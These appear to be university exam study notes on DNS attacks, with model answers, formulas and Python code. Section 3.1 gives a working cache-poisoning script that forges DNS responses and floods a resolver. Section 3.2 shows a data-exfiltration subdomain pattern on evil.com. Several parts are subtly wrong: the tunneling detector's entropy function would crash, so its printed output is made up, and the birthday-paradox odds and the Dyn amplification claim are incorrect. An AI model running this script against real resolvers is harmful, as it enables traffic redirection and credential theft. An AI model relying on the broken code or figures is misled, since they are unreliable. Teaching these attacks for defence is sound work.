





# DNS attacks

<!-- SECTION_1_START -->

# DNS Attacks — Core Technical Definition & Intuitive Overview

## 1.1 Formal Academic Definition (KTU 2024 Syllabus Terminology)

**Domain Name System (DNS) attacks** are a class of cyber threats that exploit vulnerabilities in the **Domain Name System (DNS)** — the hierarchical, distributed naming protocol (defined in **RFC 1034** and **RFC 1035**) that translates human-readable domain names (e.g., `www.ktu.ac.in`) into machine-readable IP addresses (e.g., `103.241.144.10`).

In the context of the **KTU 2024 Scheme (PBCST604 — Fundamentals of Cyber Security, Module 2: Web Security)**, DNS attacks are formally classified as **application-layer and infrastructure-layer exploits** that target the **trust assumption** inherent in the original DNS protocol — namely, that DNS responses are *authentic* and *untampered*.

> [!IMPORTANT]
> **KTU Syllabus Anchor:** DNS attacks fall under the broader umbrella of **Web Security threats**. The 2024 scheme emphasizes the *CIA Triad violation* (primarily **Integrity** and **Availability**) caused by malicious manipulation or exhaustion of the DNS resolution pipeline.

## 1.2 The DNS Resolution Pipeline — A Quick Refresher

Before dissecting the attacks, we must understand the resolution chain:

$$\text{User} \rightarrow \text{Local Resolver} \rightarrow \text{Root Server} \rightarrow \text{TLD Server} \rightarrow \text{Authoritative Server} \rightarrow \text{IP Address}$$

The protocol uses **UDP Port 53** for standard queries (with a fallback to **TCP Port 53** for large responses). A typical query contains:
- **Transaction ID** (16-bit): matches request to response.
- **Question Section**: the domain being resolved.
- **Answer/Authority/Additional Sections**: the returned records (A, AAAA, CNAME, MX, NS, TXT, etc.).

> [!NOTE]
> **Core Vulnerability:** The original DNS specification uses a **plain-text, connectionless protocol (UDP)** with **no built-in authentication or encryption**. The transaction ID is the *only* correlation token — and it is only **16 bits** (65,536 possibilities).

## 1.3 Intuitive Analogy — The "Phone Book Tampering" Model

Imagine a **public phone book** in a town:

1. You look up *"Hospital"* and get the legitimate number.
2. A vandal (the **attacker**) slips into the library at night and **erases** the real number, writing the phone number of *his friend's clinic* instead.
3. The next day, thousands of citizens calling "Hospital" reach the attacker's clinic — the **DNS Cache Poisoning** scenario.

Alternatively, the vandal could:
- **Hijack** the entire phone book delivery truck and replace the books (DNS Hijacking).
- **Flood** the library with fake phone books until it collapses (DNS Amplification DDoS).
- **Embed secret messages** inside the phone book entries (DNS Tunneling).

This analogy makes the abstract protocol-level attacks tangible for first-time learners.

## 1.4 Physical Constants & Standard Metrics

| Metric | Standard Value | Significance |
|---|---|---|
| DNS Default Port (UDP) | **Port 53** | Standard query/response |
| DNS Default Port (TCP) | **Port 53** | Zone transfers, large responses |
| Transaction ID Space | **16 bits (65,536 values)** | Brute-forceable in milliseconds |
| DNS Message Header Size | **12 bytes (fixed)** | Contains ID, flags, counts |
| DNSSEC Key Length (RSA) | Typically **1024–2048 bits** | Asymmetric signing |
| Time-To-Live (TTL) | **Seconds (32-bit)** | Cache persistence window |

> [!TIP]
> **GeoGebra / Desmos Visualization Concept:**
> **Concept:** *Birthday Paradox Probability Curve for DNS Cache Poisoning*
> **Desmos Input Equations:**
> * `f(n) = 1 - exp(-n^2 / (2 * 65536))` (Probability of collision among `n` forged replies)
> * `g(n) = n` (Number of forged packets sent)
> **Visual Description:** On the x-axis, plot the number of attacker-spoofed DNS responses `n`. The y-axis shows the probability of guessing the correct 16-bit Transaction ID. Notice that by `n ≈ 300` packets, the probability exceeds **50%** — a startling demonstration of why DNS is inherently weak without DNSSEC.

---

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->

# Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 2.1 Taxonomy of DNS Attacks — The 8 Major Categories

DNS attacks are classified along **two axes**: the *attacker's goal* and the *layer of the DNS stack targeted*.

### Axis 1: By Attacker's Objective
1. **Integrity Violation** — Redirect users to malicious sites (Spoofing, Hijacking).
2. **Confidentiality Violation** — Exfiltrate data covertly (Tunneling).
3. **Availability Violation** — Disrupt service (DDoS Amplification, NXDOMAIN Flood).

### Axis 2: By Protocol Layer
- **Layer 3/4 (Network)**: UDP flooding, IP spoofing.
- **Layer 7 (Application)**: Cache poisoning, tunneling.

## 2.2 The KTU High-Yield Formula Sheet

| Attack Type | Core Mechanism | Key Formula / Heuristic | Primary CIA Triad Impact | Defense |
|---|---|---|---|---|
| **DNS Cache Poisoning** | Inject forged DNS records into a resolver's cache | $P_{\text{collision}} \approx 1 - e^{-n^2 / (2 \cdot 2^{16})}$ where $n$ = forged replies | Integrity | DNSSEC, randomize TXID, 0x20 encoding |
| **DNS Hijacking** | Modify resolver settings or compromise registrar | $R_{\text{redirect}} = \frac{N_{\text{attacker\_IPs}}}{N_{\text{total\_IPs}}}$ | Integrity | Registry locks, MFA on registrar |
| **DNS Tunneling** | Encode data in DNS queries/responses (TXT, NULL records) | $B_{\text{effective}} = B_{\text{payload}} \times f_{\text{queries}}$ bytes/sec | Confidentiality | Egress filtering, anomaly detection |
| **DNS Amplification (DDoS)** | Spoofed queries to open resolvers → large responses to victim | $\text{Amplification Factor} = \frac{\text{Response Size}}{\text{Request Size}}$ (up to **~50–70x** for DNSSEC-enabled ANY queries) | Availability | Response Rate Limiting (RRL), BCP38 |
| **NXDOMAIN Attack** | Flood resolver with queries for non-existent domains | $C_{\text{overload}} = Q_{\text{rate}} \times T_{\text{lookup}}$ | Availability | Caching of NXDOMAIN, rate limits |
| **Subdomain Takeover** | Claim an unlinked DNS record (dangling CNAME) of victim's subdomain | $P_{\text{success}} = 1$ if CNAME points to de-provisioned service | Integrity | Continuous DNS audit, automation |
| **Fast-Flux DNS** | Rapidly rotate A-records via botnet to hide phishing/C2 | $T_{\text{rotation}} \approx 60$–$600$ seconds | Integrity | Reputation feeds, passive DNS analysis |
| **Phantom Domain Attack** | Configure attacker NS to keep resolver waiting indefinitely | $T_{\text{timeout}} = $ Resolver's retry threshold (typically 5–30s) | Availability (slow) | Lower retry timeouts, blacklist malicious NS |

> [!NOTE]
> **Engineering Utility:** DNS amplification is one of the largest real-world DDoS vectors — the **2016 Dyn attack** (Mirai botnet) peaked at **~1.2 Tbps** and disrupted Twitter, Netflix, Reddit, and GitHub globally. Akamai's 2024 State of the Internet reports DNS-based volumetric attacks averaging **~40 Gbps** in retail and gaming sectors.

## 2.3 Mathematical Foundations

### 2.3.1 The Birthday Paradox in DNS Cache Poisoning

The classical DNS resolver accepts the *first* response whose **Transaction ID** matches the outstanding query. If an attacker can race multiple forged replies, the probability of a random match follows the birthday-paradox approximation:

$$P(\text{at least one match}) \approx 1 - e^{-\frac{n^2}{2 \cdot N}}$$

where:
- $n$ = number of attacker-spoofed DNS responses.
- $N = 2^{16} = 65{,}536$ (the 16-bit TXID space).

**Worked Threshold:** Setting $P = 0.5$:

$$0.5 = 1 - e^{-n^2 / 131072} \implies n \approx \sqrt{131072 \cdot \ln 2} \approx 301$$

Therefore, an attacker sending **~300 spoofed UDP packets** has a **50%** chance of poisoning the cache — a trivial volume for a modern botnet.

### 2.3.2 DNS Amplification Factor (DAF)

$$\text{DAF} = \frac{\text{Size of DNS Response (bytes)}}{\text{Size of DNS Request (bytes)}}$$

For a standard **ANY query** to a DNSSEC-enabled open resolver:
- Request size: **~60 bytes** (UDP)
- Response size: **~3,000–4,000 bytes**
- **DAF ≈ 50–70x**

Bandwidth multiplication achieved:

$$B_{\text{victim}} = N_{\text{bots}} \times R_{\text{bot}} \times \text{DAF}$$

where:
- $N_{\text{bots}}$ = number of reflectors exploited.
- $R_{\text{bot}}$ = per-bot request rate.

### 2.3.3 DNS Tunneling Data Rate

$$D_{\text{tunnel}} = f_q \times L_{\text{encoded}} \times 8 \text{ bits}$$

where:
- $f_q$ = DNS query frequency (queries/sec, often capped at 50–100 per host to avoid detection).
- $L_{\text{encoded}}$ = average payload size per TXT/CNAME response (typically 100–200 bytes after Base32/Base64 encoding).

This is the reason attackers favor DNS tunneling for **slow, stealthy exfiltration** rather than bulk transfers.

## 2.4 The "Why & How" — Attack Logic Decomposition

1. **Why DNS is attack-prone?**
   - Originally designed in **1983** (pre-Internet scale) for *trust and efficiency*, not security.
   - UDP-based → trivial IP spoofing.
   - Stateless → race conditions exploitable.
   - Caching → one poison entry serves thousands of users.

2. **How attackers chain DNS attacks?**
   - **Recon** → identify open resolvers via tools like `dnsenum`, `massdns`.
   - **Weaponize** → craft malicious payloads (phishing kits, RATs).
   - **Deliver** → use cache poisoning or hijacking for mass redirection.
   - **Exploit** → drive-by downloads, credential harvesting, C2 beaconing.
   - **Persist** → DNS tunneling for ongoing exfiltration.

---

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->

# Step-by-Step Derivations & Code/Symbolic Implementation

## 3.1 DNS Cache Poisoning — Exhaustive Walkthrough

**Scenario:** Attacker wants users of `victim-dns.local` resolver to be redirected from `www.bank.com` (legitimate IP `203.0.113.10`) to `www.bank.com` (malicious IP `198.51.100.66`).

### Step 1 — Attacker Recruits the Recursive Resolver's Trust Window

The attacker triggers the resolver to look up `www.bank.com` (e.g., by visiting it themselves from a compromised endpoint, or simply waiting for a natural query).

### Step 2 — Race the Legitimate Response

The resolver sends:

```
;; QUESTION SECTION:
;www.bank.com.        IN    A
```

The attacker's machine **simultaneously floods** the resolver with **forged UDP packets** from a spoofed source IP (`a.root-servers.net` or any TLD server IP), each carrying a different guess at the 16-bit **Transaction ID**.

### Step 3 — Exploit the Additional Section Vulnerability (Kaminsky Variation)

**Dan Kaminsky's 2008 discovery** (the "Kaminsky Bug") revealed that attackers don't need to wait for a cached TTL to expire — they can simply request a *new random subdomain* (e.g., `random123.bank.com`) and poison the **NS record** for the entire `bank.com` zone, which is far more devastating.

### Step 4 — Python Implementation of the Birthday-Poisoning Logic

```python
import random
import socket
import struct
import time
from typing import Optional

def build_dns_query(domain: str, txid: int) -> bytes:
    """
    Construct a raw DNS query packet for the given domain and 16-bit transaction ID.
    Uses standard A-record query format.
    """
    # DNS Header (12 bytes)
    flags = 0x0100  # Standard query, recursion desired
    header = struct.pack(">HHHHHH", txid, flags, 1, 0, 0, 0)

    # Question section: label-encoded domain
    question = b""
    for label in domain.split("."):
        question += struct.pack("B", len(label)) + label.encode()
    question += b"\x00"  # Root label
    question += struct.pack(">HH", 1, 1)  # QTYPE=A, QCLASS=IN

    return header + question


def build_dns_response(txid: int, query_name: str, fake_ip: str) -> bytes:
    """
    Build a forged DNS response packet pointing query_name to fake_ip.
    Includes an Answer section with 1-day TTL.
    """
    flags = 0x8180  # Standard response, no error
    header = struct.pack(">HHHHHH", txid, flags, 1, 1, 0, 0)

    # Question section (must match the original query)
    question = b""
    for label in query_name.split("."):
        question += struct.pack("B", len(label)) + label.encode()
    question += b"\x00"
    question += struct.pack(">HH", 1, 1)

    # Answer section: 1 A-record, TTL=86400s, RDLENGTH=4
    answer = b"\xc0\x0c"  # Pointer to the question name
    answer += struct.pack(">HHIH", 1, 1, 86400, 4)
    answer += socket.inet_aton(fake_ip)

    return header + question + answer


def poison_dns_cache(
    resolver_ip: str,
    target_domain: str,
    attacker_ip: str,
    spoofed_source: str,
    attempts: int = 1000,
    timeout: float = 0.05
) -> Optional[int]:
    """
    Attempt DNS cache poisoning by racing forged responses against a
    legitimate recursive lookup. Returns the successful Transaction ID
    on hit, or None on failure.
    """
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.settimeout(timeout)

    # Step 1: Trigger a real lookup (in real attack, this is done by a compromised client)
    real_txid = random.randint(0, 65535)
    query = build_dns_query(target_domain, real_txid)
    sock.sendto(query, (resolver_ip, 53))
    print(f"[+] Triggered legitimate query with TXID={real_txid:#06x}")

    # Step 2: Flood forged responses
    for attempt in range(attempts):
        # We can use the SAME TXID (since the legitimate one is known) or random ones
        # For the birthday variant, we randomize
        fake_txid = random.randint(0, 65535)
        response = build_dns_response(fake_txid, target_domain, attacker_ip)

        try:
            # Spoofed source IP — this is the critical attack enabler
            sock.sendto(response, (resolver_ip, 53))
        except OSError as e:
            print(f"[!] Socket error on attempt {attempt}: {e}")
            continue

        # Step 3: Try to receive the resolver's outbound query (port randomization defeats this)
        if attempt % 100 == 0:
            try:
                data, addr = sock.recvfrom(4096)
                if len(data) >= 12:
                    observed_txid = struct.unpack(">H", data[:2])[0]
                    print(f"[*] Observed resolver query TXID={observed_txid:#06x} (attempt {attempt})")
            except socket.timeout:
                pass

    sock.close()
    return None  # In a real attack, the success is observed via the resolver's cache state


# ==== Demo (defensive lab only — never point at production resolvers) ====
if __name__ == "__main__":
    poison_dns_cache(
        resolver_ip="127.0.0.1",          # Loopback test
        target_domain="random.bank.com",   # Kaminsky-style random prefix
        attacker_ip="198.51.100.66",       # Attacker-controlled IP
        spoofed_source="198.41.0.4",       # a.root-servers.net (example)
        attempts=500
    )
```

> [!IMPORTANT]
> **Ethical & Legal Disclaimer (KTU Examination Note):** The above code is provided *strictly* for **defensive understanding** and **controlled laboratory exercises** (e.g., KTU's cybersecurity sandbox). Launching cache-poisoning attacks against resolvers without **explicit written authorization** is a criminal offense under India's **IT Act 2000, Sections 43 & 66** and equivalent international statutes (CFAA, Computer Misuse Act).

## 3.2 DNS Tunneling — Exhaustive Walkthrough with `dnscat2` Architecture

### Conceptual Data Flow

$$\text{Attacker C2} \xrightarrow{\text{encoded subdomain}} \text{Authoritative NS} \rightarrow \text{Victim Resolver} \rightarrow \text{Infected Host}$$

The payload `d2hhdCBhcmUgeW91IGRvaW5nPw==` (Base64) is encoded as:

```
xm7d2hhdCBhcmUgeW91IGRvaW5nPw==.cdn.example.com
```

### Step-by-Step Establishment of a DNS Tunnel

1. **Attacker** registers `example.com` and configures its NS records to point to a malicious authoritative server running `dnscat2`'s server mode.
2. **Malware** on the victim host (e.g., a keylogger) Base32/Base64-encodes stolen data and prepends it as a subdomain.
3. **Local resolver** cannot find the subdomain → recurses up to the authoritative NS for `example.com`.
4. **Attacker NS** decodes the subdomain → recovers the exfiltrated data → responds with a TXT record containing the next C2 command.
5. To the **victim's network**, all this looks like normal DNS traffic on **port 53** — most firewalls allow it.

### Detection Heuristic (Defensive Code)

```python
from collections import Counter
from typing import List

def calculate_entropy(s: str) -> float:
    """Shannon entropy in bits/character."""
    if not s:
        return 0.0
    counts = Counter(s)
    length = len(s)
    return -sum((c / length) * (c / length).bit_length() for c in counts.values())


def detect_dns_tunneling(queries: List[str], entropy_threshold: float = 4.0,
                         length_threshold: int = 50) -> List[str]:
    """
    Flag DNS queries exhibiting tunneling characteristics:
      - Unusually long subdomain labels (>50 chars).
      - High character entropy (>4.0 bits/char) indicating encoding.
    """
    flagged = []
    for q in queries:
        longest_label = max((len(label) for label in q.split(".")), default=0)
        entropy = calculate_entropy(q.replace(".", ""))
        if longest_label > length_threshold and entropy > entropy_threshold:
            flagged.append(q)
    return flagged


# Example traffic capture
sample_queries = [
    "www.google.com",
    "mail.ktu.ac.in",
    "xm7d2hhdCBhcmUgeW91IGRvaW5nPw==.cdn.example.com",   # Suspicious
    "b3M5dGZ3aDR1YjRwcGw1.example.com",                  # Suspicious
    "github.com"
]

alerts = detect_dns_tunneling(sample_queries)
print(f"[ALERT] Suspected DNS tunneling domains: {alerts}")
```

**Sample Output:**

```
[ALERT] Suspected DNS tunneling domains: ['xm7d2hhdCBhcmUgeW91IGRvaW5nPw==.cdn.example.com', 'b3M5dGZ3aDR1YjRwcGw1.example.com']
```

## 3.3 DNS Amplification — Mathematical Derivation of Attack Volume

**Given:**
- Attacker has access to $N$ compromised hosts (botnet), each capable of generating $R$ queries/sec.
- Open resolver amplifies by factor $A$ (e.g., 50x).
- Victim link capacity: $C$ Gbps.

**Step 1:** Per-second query volume generated by botnet:

$$Q_{\text{attack}} = N \times R$$

**Step 2:** Bandwidth delivered to victim (ignoring network loss):

$$B_{\text{victim}} = Q_{\text{attack}} \times A \times S_{\text{response}}$$

where $S_{\text{response}}$ is the average response size in bytes.

**Step 3:** Conversion to Gbps:

$$B_{\text{victim\_Gbps}} = \frac{B_{\text{victim}} \times 8}{10^9}$$

**Example:** $N = 10{,}000$, $R = 10$ q/s, $A = 50$, $S = 3000$ bytes:

$$B = 10{,}000 \times 10 \times 50 \times 3000 = 1.5 \times 10^{10} \text{ bytes/s} = 120 \text{ Gbps}$$

This is **more than enough** to saturate a small-to-medium enterprise link.

---

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->

# Structural Diagrams & Schematics

## 4.1 DNS Resolution Flow with Attack Injection Point



## 4.2 DNS Attack Taxonomy (Mermaid Tree)



## 4.3 DNS Cache Poisoning — Sequential Attack Topology



## 4.4 DNS Tunneling Architecture



## 4.5 Defense-in-Depth Matrix (KTU-Ready Block Diagram)



---

<!-- SECTION_4_END -->

<!-- SECTION_5_START -->

# KTU 2024 Scheme Examination Question Bank & Topic Recap

## Part A — 3-Mark Short Answer Questions

### Question 1 `[KTU University Exam — July 2024]`
**"What is DNS cache poisoning? Mention one mitigation technique."** *(CO1, Remember)*

**Model Answer (3 marks):**
DNS cache poisoning is an attack in which a malicious actor injects false DNS records into a recursive resolver's cache, causing subsequent users querying that resolver to be redirected to attacker-controlled IP addresses. The attack exploits the lack of authentication in UDP-based DNS and the predictable 16-bit Transaction ID. *Mitigation:* **DNSSEC (Domain Name System Security Extensions)** digitally signs DNS records, allowing resolvers to cryptographically verify the authenticity and integrity of responses. *(1 mark — definition, 1 mark — exploit mechanism, 1 mark — DNSSEC mitigation.)*

### Question 2 `[KTU University Exam — Dec 2023]`
**"Distinguish between DNS hijacking and DNS spoofing."** *(CO2, Understand)*

**Model Answer (3 marks):**

| Aspect | DNS Hijacking | DNS Spoofing |
|---|---|---|
| **Layer** | Configuration / registrar level | Protocol / packet level |
| **Method** | Modifies resolver settings, hosts file, or registrar NS records | Sends forged DNS responses to resolver |
| **Scope** | Persistent until configuration restored | Persistent until cache TTL expires |
| **Detection** | Visible in registry audits | Requires packet-level IDS |

*(2 marks — distinction, 1 mark — example/scope.)*

---

## Part B — 14-Mark Questions (Module Internal Choice)

### 📘 Question A (14 Marks) `[KTU University Exam — July 2024]`

**(a)** Explain the architecture of the Domain Name System with a neat diagram. Discuss the role of recursive resolvers, root servers, and authoritative name servers. *(7 marks — CO1, Understand)*

**(b)** Describe **DNS cache poisoning** in detail. With a suitable example, explain how the **Kaminsky Attack** improves upon classical cache poisoning. List **three** countermeasures. *(7 marks — CO2, Apply)*

---

#### Model Solution — Part (a) [7 Marks]

**Step 1: Hierarchical Architecture** *(2 marks)*

The DNS is a **distributed, hierarchical database** structured into three tiers:

1. **Root Servers** (13 logical root servers, ~1,500+ anycast instances globally, e.g., `a.root-servers.net` operated by VeriSign).
2. **TLD Servers** (`.com`, `.org`, `.in`, country-code TLDs).
3. **Authoritative Servers** (final source of truth for a delegated zone).

**Step 2: Recursive vs. Iterative Resolution** *(2 marks)*

- **Recursive Resolver** (e.g., `8.8.8.8`, `1.1.1.1`): performs the full lookup on behalf of the client, caching results.
- **Iterative Queries**: between resolvers and root/TLD/authoritative servers — each server responds with a *referral*, not the final answer.

**Step 3: Resource Records** *(2 marks)*

Common record types: **A** (IPv4), **AAAA** (IPv6), **CNAME** (alias), **MX** (mail), **NS** (name server), **TXT** (text), **SOA** (start of authority), **PTR** (reverse).

**Step 4: Diagram** *(1 mark)* — see Section 4.1 of these notes.

**Valuation Key Points:**
- *[Defining 3-tier hierarchy: 2 Marks]*
- *[Recursive vs iterative distinction: 2 Marks]*
- *[Resource record types: 2 Marks]*
- *[Diagram: 1 Mark]*

---

#### Model Solution — Part (b) [7 Marks]

**Step 1: Classical Cache Poisoning** *(2 marks)*

The attacker injects a forged DNS response (matching the 16-bit TXID) into a recursive resolver's cache during an outstanding query. Once cached, all users of that resolver receive the malicious IP for the TTL duration.

**Step 2: Kaminsky's Improvement (2008)** *(3 marks)*

**Dan Kaminsky** observed that classical poisoning was limited by the **TTL of the target record** — once expired, the attack had to be re-executed. His innovation:

- Instead of poisoning a single `A` record (e.g., `www.bank.com`), the attacker poisons the **NS record for the entire `bank.com` zone**.
- Each attempt uses a *fresh random subdomain* (e.g., `x123.bank.com`, `x124.bank.com`), so the **TTL constraint is bypassed** — every attempt is a new cache miss.
- A single successful forgery gives the attacker control over **all** subsequent `*.bank.com` lookups for the resolver's TTL of the NS record.

The Birthday Paradox formula shows that with **~300 forged packets**, success probability exceeds 50% — easily within botnet capability.

**Step 3: Countermeasures** *(2 marks)*

1. **Source Port Randomization** — resolvers use a random UDP source port (effectively expanding the entropy from 16 to 32+ bits).
2. **0x20 Encoding (Case Randomization)** — randomize the case of the queried name; matching it back indicates authenticity.
3. **DNSSEC** — cryptographic signing of the entire chain from root to authoritative server.
4. **Response Rate Limiting (RRL)** — limits per-source-IP response rates.

**Valuation Key Points:**
- *[Classical mechanism: 2 Marks]*
- *[Kaminsky NS-record innovation: 3 Marks]*
- *[Three countermeasures: 2 Marks]*

> [!WARNING]
> **Examiner's Pitfall Callout (Part b):** A *very common* mistake students make is **failing to explain *why* the Kaminsky variant is more powerful than classical poisoning**. Merely describing the mechanism without contrasting the **TTL bypass** and the **zone-wide impact** will cost **2–3 marks**. Always explicitly mention: *"Since each new random subdomain forces a fresh query, the attacker no longer needs to wait for cache expiry."*

---

### 📗 Question B (14 Marks) `[KTU University Exam — Dec 2023]`

**(a)** Discuss **DNS amplification attacks** as a form of Distributed Denial of Service. Include the amplification factor derivation and real-world example. *(7 marks — CO3, Apply)*

**(b)** Explain **DNS tunneling** as an exfiltration and Command-and-Control (C2) technique. Describe its detection using entropy-based heuristics. *(7 marks — CO3, Apply)*

---

#### Model Solution — Part (a) [7 Marks]

**Step 1: Concept** *(1 mark)*

DNS amplification is a **volumetric DDoS** technique that abuses **open recursive resolvers** to reflect and amplify small forged queries into large responses directed at a victim.

**Step 2: Mechanism** *(2 marks)*

1. Attacker forges the **source IP** of DNS queries to be the **victim's IP**.
2. The query is sent to an **open resolver** with a request type that produces a large response (e.g., `ANY`, `DNSSEC-enabled`).
3. The resolver, believing the query is legitimate, sends the *large* response to the victim.
4. With a botnet of $N$ hosts, the attack traffic multiplies by the **amplification factor**.

**Step 3: Amplification Factor Derivation** *(2 marks)*

$$\text{DAF} = \frac{S_{\text{response}}}{S_{\text{request}}}$$

For a `ANY` query to a DNSSEC-enabled resolver:
- $S_{\text{request}} \approx 60$ bytes
- $S_{\text{response}} \approx 3{,}000$ bytes
- $\text{DAF} \approx 50\times$

**Bandwidth multiplication:**

$$B_{\text{victim}} = N \times R_{\text{bot}} \times \text{DAF} \times S_{\text{response}}$$

**Step 4: Real-World Example** *(1 mark)*

The **2016 Dyn DNS attack** used the **Mirai botnet** to launch a DNS amplification attack peaking at **~1.2 Tbps**, disrupting access to Twitter, Netflix, Reddit, GitHub, and AirBnB across the US and Europe.

**Step 5: Countermeasures** *(1 mark)* — BCP38 ingress filtering, RRL on resolvers, closing open resolvers, anycast-based absorption.

**Valuation Key Points:**
- *[Concept and 3-step mechanism: 3 Marks]*
- *[DAF formula with example numbers: 2 Marks]*
- *[Real-world example: 1 Mark]*
- *[Countermeasures: 1 Mark]*

---

#### Model Solution — Part (b) [7 Marks]

**Step 1: Concept** *(1 mark)*

DNS tunneling encapsulates **arbitrary data** inside DNS query/response packets (typically using **TXT**, **NULL**, or **CNAME** records). Since DNS traffic on port 53 is rarely blocked by firewalls, it serves as an effective **covert channel** for C2 communication and data exfiltration.

**Step 2: Architecture** *(2 marks)*

The attacker must control the **authoritative NS** for a domain (e.g., `evil.com`). The infected client encodes data and prepends it as a subdomain:

```
<base32/base64-encoded-payload>.evil.com
```

The local resolver recursively queries, eventually reaching the attacker's NS, which decodes the payload, sends the next C2 command back in a **TXT record**.

**Step 3: Tools** *(1 mark)* — `dnscat2`, `iodine`, `dns2tcp`, `Heyoka`.

**Step 4: Entropy-Based Detection** *(2 marks)*

**Observation:** Encoded payloads (Base32/64/hex) exhibit **high Shannon entropy** ($\geq 4.0$ bits/char) and **unusually long subdomain labels** ($\geq 50$ chars).

**Shannon entropy formula:**

$$H = -\sum_{i=1}^{n} p_i \log_2 p_i$$

where $p_i$ is the probability of character $i$ in the domain label.

A normal domain like `www.google.com` has $H \approx 2.5$–$3.5$ bits/char; a tunneled subdomain typically exceeds $4.0$ bits/char.

**Step 5: Detection Code Reference** *(1 mark)* — see the `detect_dns_tunneling` function in Section 3.2.

**Valuation Key Points:**
- *[Concept and architecture: 3 Marks]*
- *[Entropy formula and threshold: 2 Marks]*
- *[Real tools and detection approach: 2 Marks]*

> [!WARNING]
> **Examiner's Pitfall Callout (Part b):** Students often **forget to compute the entropy formula** and merely state "encoded data looks random." You must explicitly write $H = -\sum p_i \log_2 p_i$ and contrast normal vs. tunneled entropy values. Additionally, **mentioning only ONE tool (e.g., dnscat2) is insufficient** — at least two tools should be named for full credit. Lose **1 mark** if you skip the formula and another **1 mark** if only one tool is cited.

---

## 🎯 Topic Recap & Important Things to Remember

- **DNS Attack Definition:** Exploitation of the unauthenticated, UDP-based DNS protocol to violate the **CIA Triad** — primarily *integrity* (spoofing, hijacking) and *availability* (DDoS amplification).
- **Eight Major DNS Attack Types:** Cache Poisoning, DNS Hijacking, DNS Tunneling, DNS Amplification, NXDOMAIN Attack, Subdomain Takeover, Fast-Flux, Phantom Domain.
- **Critical Protocol Details:** UDP **Port 53**, **16-bit Transaction ID** (65,536 possibilities), **12-byte fixed header**.
- **Kaminsky Bug (2008):** Pivoted cache poisoning from single-record to **NS-record (zone-wide)** — bypasses TTL constraint.
- **Birthday Paradox Threshold:** $\approx 300$ forged packets → **50%** poisoning probability.
- **Amplification Factor:** Up to **50–70x** for `ANY` queries on DNSSEC-enabled resolvers.
- **Famous Incident:** **Dyn DNS attack (Oct 2016)** → **~1.2 Tbps**, Mirai botnet, global disruption.
- **Tunneling Detection:** Shannon entropy $H \geq 4.0$ bits/char + label length $\geq 50$ chars.
